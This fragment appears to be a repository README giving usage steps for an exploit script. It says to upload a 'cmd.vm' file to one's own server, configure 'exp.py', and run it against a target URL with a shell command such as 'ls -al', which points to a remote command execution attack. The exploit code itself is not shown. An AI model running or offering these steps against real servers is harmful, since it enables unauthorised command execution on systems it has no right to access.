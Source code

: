 Use step:
1.upload cmd.vm to your server.
2.set exp.py--->_exec---->filename
3.python exp.py http[s]://xxx.com:8080/ "ls -al"
